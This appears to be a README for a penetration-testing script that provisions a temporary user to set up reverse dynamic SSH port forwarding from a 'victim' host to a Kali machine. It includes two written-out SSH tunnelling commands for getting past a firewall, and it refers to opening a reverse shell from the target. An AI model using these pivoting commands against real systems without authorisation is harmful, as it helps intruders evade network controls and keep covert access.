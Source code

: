 # reverse-dynamic-port-forward
This is a simple script to make it easier to create reverse dynamic port forwards with SSH. 

If SSH is allowed inbound on the victim, you don't need to use this. You can perform a standard (forward) dynamic port forward from kali to the victim.

If SSH is not allowed inbound,  you can use this script to more easily provision and destroy a temporary user for a reverse connection.

### Workarounds for older ssh client versions

Reverse dynamic port forwarding with -R requires OpenSSH 7.6 on the victim. 

If your victim has a lower OpenSSH client version, but is running an SSH server protected by a firewall, you can still work around that to do dynamic port forwarding.
On the victim, you can create a reverse port forward from kali:someport to victim:22 so that kali can access the victim's SSH server from localhost:someport.
Then, on kali, you can do a standard dynamic port forward on localhost:someport which bypasses the firewall through the SSH tunnel to reach victim:22

```
victim:~$ ssh -fNR 1337:127.0.0.1:22 hacker@kali
kali:~$ ssh -fND 9050 -p 1337 victim@127.0.0.1
```

## Setup

Run the script on kali.

![](./doc-images/setup1.png)

Create a reverse shell from the debian server to kali.

![](./doc-images/setup2.png)

From the reverse shell, copy and paste the command generated by the script.

![](./doc-images/setup3.png)

## Example 1: connections to kali will go through debian
![](./doc-images/proof1-1.png)
![](./doc-images/proof1-2.png)

## Example 2: connections to localhost will go to debian

![](./doc-images/proof2-1.png)
![](./doc-images/proof2-2.png)

## Cleanup

The script automatically kills all processes from the temporary user and then deletes it.

![](./doc-images/cleanup.png)
